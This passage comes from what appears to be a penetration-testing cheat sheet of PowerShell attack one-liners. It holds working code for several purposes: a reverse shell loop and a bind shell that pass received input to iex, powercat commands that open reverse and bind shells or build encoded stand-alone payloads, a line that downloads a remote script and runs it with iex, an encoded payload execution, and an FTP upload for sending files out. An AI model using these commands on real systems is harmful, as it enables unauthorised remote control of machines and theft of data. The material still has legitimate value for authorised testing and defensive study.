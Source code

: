   	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  	$stream.Write($sendbyte,0,$sendbyte.Length);
  	$stream.Flush();
  }
  $client.Close();
  ```

**Set up a bind shell with PowerShell**
```PowerShell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeNameSystem.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

**Powercat**

Script: [powercat.ps1](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1).

```PowerShell
powercat -c <IP> -p <PORT> -i C:\<DIR>\powercat.ps1                     Send a file
powercat -c <IP> -p <PORT> -e cmd.exe                                   Send a reverse shell
powercat -l -p 443 -e cmd.exe                                           Set up a bind shell; -l option to create a listener, -p to specify the listening port number, -e to have an application executed once connected
powercat -c <IP> -p <PORT> -e cmd.exe -g > reverseshell.ps1             Create a stand-alone payload
powercat -c <IP> -p <PORT> -e cmd.exe -ge > encodedreverseshell.ps1     Create an encoded stand-alone payload with powercat
```

**Load a remote PowerShell script using iex**
```PowerShell
iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

**Execute an encoded stand-alone payload using PowerShell**
```PowerShell
powershell.exe -E ZgB1AG4AYwB0AGkAbwBuACAAUwB0AHIAZQBhAG0AMQBfAFMAZQB0AHUAcAAKAHsACgAKACAAIAAgACAAcABhAHI...
```

**Upload a file to an FTP server**
```PowerShell
$ftpRequest = [System.Net.FtpWebRequest]::Create("ftp://<IP>:<PORT>/<FILE_TO_UPLOAD>"); $ftpRequest.Credentials = New-Object System.Net.NetworkCredential("<USERNAME>", "<PASSWORD>"); $ftpRequest.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile; $fileContents = [System.IO.File]::ReadAllBytes((Resolve-Path "<FILE_TO_UPLOAD>")); $ftpRequest.ContentLength = $fileContents.Length; $requestStream = $ftpRequest.GetRequestStream(); $requestStream.Write($fileContents, 0, $fileContents.Length); $requestStream.Close(); $response = $ftpRequest.GetResponse(); $response.Close()
```
- Change `<IP>`, `<PORT>`, `<FILE_TO_UPLOAD>`, `<USERNAME>`, `<PASSWORD>`

